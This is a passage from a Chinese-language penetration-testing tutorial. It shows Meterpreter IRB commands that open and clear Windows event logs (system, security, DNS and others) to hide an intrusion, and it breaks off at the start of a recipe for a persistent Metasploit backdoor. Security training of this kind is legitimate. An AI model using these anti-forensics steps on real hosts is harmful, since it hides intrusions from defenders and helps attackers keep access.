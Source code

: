     ```
    irb
    ```

    ![](../img/2f4b000d6bad7f62dd211969c8cd6183.png)

3.  下面，我们告诉 IRB 要移除哪个文件。下面是一个可用的选择：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```

4.  出于我们的目的，我们把它们都清理掉。你需要将这些一次键入：

    ```
    log = client.sys.eventlog.open('system') 
    log = client.sys.eventlog.open('security') 
    log = client.sys.eventlog.open('application') 
    log = client.sys.eventlog.open('directory service') 
    log = client.sys.eventlog.open('dns server') 
    log = client.sys.eventlog.open('file replication service')
    ```

5.  现在我们执行命令来清理日志文件：

    ```
    Log.clear 
    ```

6.  这就结束了。我们只用了这么少的命令就能清理我们的踪迹。

### 工作原理

这个秘籍中，我们使用 Meterpreter 来清理我们在目标主机上的踪迹。我们从 Meterpreter 中开始这个秘籍，并启动了 IRB（一个 Ruby 解释器 shell）。下面，我们指定了想要清理的文件，并且最后键入了`Log.clear`命令来清理日志。要记住，一旦我们黑进了某个主机，你需要在最后执行这一步。你不能在清理踪迹之后再执行更多的操作，这样只会更加更多的日志条目。

## 7.6 创建永久后门

这个秘籍中，我们会使用 Metasploit persistence 来创建永久后门。一旦你成功获得了目标机器的访问权限，你需要探索重新获得机器访问权的方式，而不需要再次黑进它。如果目标机器的用户做了一些事情来终端连接，比如重启机器，后门的作用就是允许重新建立到你机器的连接。这就是创建后门非常方便的原因，它可以让你控制目标机器的访问。

### 准备

为了执行这个秘籍，我们需要：
